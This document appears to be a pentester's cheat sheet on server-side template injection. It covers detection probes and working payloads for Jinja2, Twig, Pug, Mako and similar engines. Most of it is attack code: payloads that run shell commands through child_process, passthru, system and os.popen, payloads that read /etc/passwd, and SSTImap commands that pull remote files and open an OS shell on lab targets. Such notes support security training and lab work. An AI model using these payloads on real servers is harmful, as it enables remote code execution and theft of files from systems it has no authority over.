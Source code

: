 [[php]] [[nodejs]] [[python]]
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Make (python)
	* ${7 * 7}
6. handlebars (node)
	* `{{7+7}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git

python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='

# Download remote file
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# Execute remote command
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# OS shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

#### Twig
[[twig]]
```twig
{{['id',""]|sort('passthru')}}

{{ _self }}

{{ "/etc/passwd"|file_excerpt(1,-1) }}

{{ ['id'] | filter('system') }}
```

#### Jinja
[[jinja]]
```jinja2
{{ config.items() }}

{{ self.__init__.__globals__.__builtins__ }}

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```
